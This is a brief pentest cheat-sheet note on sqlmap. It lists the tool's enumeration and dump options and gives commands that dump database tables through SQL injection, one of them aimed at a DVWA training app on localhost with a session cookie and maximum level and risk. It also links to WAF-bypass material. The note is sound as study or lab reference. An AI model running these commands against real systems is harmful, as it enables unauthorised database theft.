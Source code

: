 - Options
	```
	sqlmap -r sqli.txt --dump --output-dir=$(pwd)/sqlmap 

		-p TESTPARAMETER    Testable parameter(s)
		-v VERBOSE          Verbosity level: 0-6 (default 1)
		--dbs               Enumerate DBMS databases
		--tables            Enumerate DBMS database tables
		--columns           Enumerate DBMS database table columns
		--schema            Enumerate DBMS schema
		--count             Retrieve number of entries for table(s)
		--dump              Dump DBMS database table entries
		--dump-all          Dump all DBMS databases tables entries


		-D DB               DBMS database to enumerate
		-T TBL              DBMS database table(s) to enumerate
		-C COL              DBMS database table column(s) to enumerate
		-X EXCLUDE          DBMS database identifier(s) to not enumerate
		-U USER             DBMS user to enumerate

	```
	
- Specify Headers
	```
	./sqlmap.py --headers="User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:25.0) Gecko/20100101 Firefox/25.0" --cookie="security=low; PHPSESSID=oikbs8qcic2omf5gnd09kihsm7" -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id
	```

# Some Good Reference
- https://pentest.tonyng.net/sql-injection-cheat-sheet/
- https://www.youtube.com/watch?v=_Aa8125CQ0g
- https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3

---
Tags: #cheatsheet/web #exploit/sqli/database-enum 

---